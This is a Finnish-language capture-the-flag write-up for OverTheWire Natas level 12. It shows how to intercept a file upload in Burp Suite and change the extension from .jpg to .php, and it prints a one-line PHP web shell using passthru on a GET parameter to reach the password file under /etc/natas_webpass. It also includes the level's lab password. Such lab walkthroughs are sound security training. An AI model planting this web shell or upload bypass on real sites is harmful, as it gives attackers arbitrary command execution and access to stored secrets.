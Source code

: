 # LEVEL 12 - START HERE

natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

Perus ekana tarkistellaan, mitä tässä on koodattukaan 

![alt text](./kuvat-level11-15/natas12-0.png)

Jotenkin tässä harjoituksessa huomataan PHP-koodikielestä että **JPEG** - kuva tiedosto maksimi on 1KB (MAX_FILE_SIZE).

![alt text](./kuvat-level11-15/natas12-1.png)

Periaatteessa upotin jonkun satunnaisen kuvatiedoston ja testiä ainakin toimii siis et tuli _"There was an error uploading the file, please try again!"_  - mut tämä tapahtuu toisessa uudessa sivuston alla kun jos tulee _error_ ja polku */index.php*. 

![alt text](./kuvat-level11-15/natas12-3.png)

![alt text](./kuvat-level11-15/natas12-4.png)

## Level 12 - 2 - some testing 
**Virallinen testi ja selvitettään level 12 salasansa** <br>
Perus selvittämistä ja etsitään netistä lisää ohjeita ja lisätietoa, mutta siellä on jotakin testejä että upottaa PHP-koodikielisen scriptin. Rakensin simppelin PHP koodikielen pikaisesti joku **Hello world** Kali Linux:seen , `testi1.php`. Huomioina ennen kuin upottaa ton PHP-scriptin testin sinne Natas12 harjoitukseen, niin avaa ohjelmisto työkalu kuin **Burp Suite**. Tämän ohjelma tarjoaa Kali Linux ohjelman alustalla, ja sen versio on suht kattava ettei tarvitse olla mitään _pro / subscribe_ versiot

**Burp Suite**:ssa riittää avaa _History_ välilehden ja seuraa sieltä tarkasti sivussa, kun on upottanut PHP-koodi scriptin Natas 12 levelin alle. Ei ole pakko olla PHP-koodia , että uskon varmasti perus "Hi" tai jotakin tekstiä/sanaa voi syöttää ja ideana se liitteen tiedoston perässä on nimetty **.php**.

```
<?php

echo "Hello World!";

?>

```

![alt text](./kuvat-level11-15/natas12-5.png)

(kuvasta jouduin ottaa uuden screenshotin) siksi verrattuna proxy seurannasta näyttää eri numerolta/tiedoston nimeämiseltä)
![alt text](./kuvat-level11-15/natas12-5.1.png)

Tässä se historiasta näkeekin, mitä aikaisemmassa (ylempi kuvassa), kun upotin ton **testi.php** koodi pätkän ja meni varmasti sinne palvelimen polkuun ja vähä kuin lukaisee sitä scipritä/koodin sisältöä (Burp suitessa). Upotetun jälkeen *testi.php* tiedosto piti tulla, mutta miksi yhtäkkiä antoi jotakin satunnaista nimeämistä */upload/t29....jpg* kuva tiedostoa? 

**Proxy** seurannasta näkee mitä upotin ja tässä alettaan suorittaa seuraavaa pientä operaatio.
![alt text](./kuvat-level11-15/natas12-6.png)

Eli seuraavaksi muutettaan tuosta **Proxy** --> *Intercept* - välilehden alta, että muutettaan toi kuvatiedosto (alhaalla oleva nuolenpäästä) muutettuna *jpg* --> *php* tiedostoksi ja sitten vaan **Forward**. Tämä (Forward) tarkoittaa silloin sitä, että kun pyyntö on siepattu, hakkeri/testaaja voi päättää lähetetäänkö se eteenpäin palvelimelle — eli antaa HTTP pyynnön jatkaa eteenpäin.

![alt text](./kuvat-level11-15/natas12-7.png)

HTTP pyynnöstä lähetettyn jälkeen kannattaa päivittää tämä sivusto normi päivitä sivusto niin huomattua se on muuttunut.

![alt text](./kuvat-level11-15/natas12-8.png)

Tämän jälkeen kaksois klikkaa sitä tiedostoa (ylemmän kuvan) mukaista liitettä niin avattuna niin se kertoo tämän **testi.php** skripti/koodi sisällön ja se on _Hello World!_ .

![alt text](./kuvat-level11-15/natas12-9.png)


## Level 12 - 3 - find the password

Nyt tässä kappaleessa alettaan selvittää sitä seuraavan level 13 salasansa ja tässä harjoituksessa tapahtui/tapahtui kaltainen tyyppinen kuin etsitään sitä hakemiston polkua eli **/etc/natas_webpass/natasX** . 


Seuraavaksi loin tällaiset HTTP GET skriptin PHP-koodikielellä ja riittää tekstiin sisälle voi olla jotakin, mutta parhaimmillaan että itse tietää ja mahdollisimman lyhyeksi.
 <br>
`<?php passthru($_GET['Vastaus']); ?>` <br> - Sitten upotetun jälkeen normi "Upload file" ja sen jälkeen huomaa tiedosto on upotettu palvelimeen ja muutettu kuvaksi. 

![alt text](./kuvat-level11-15/natas12-10.png)

![alt text](./kuvat-level11-15/natas12-11.png)


Samanaikaisesti kun tarkistaa **Burp Suite** ohjelman HTTP historiasta että näkee sen saman upotettun tiedoston nimensä (**testi2.php**) ja kuvan tiedoston nimi.

![alt text](./kuvat-level11-15/natas12-12.png)

![alt text](./kuvat-level11-15/natas12-13.png)







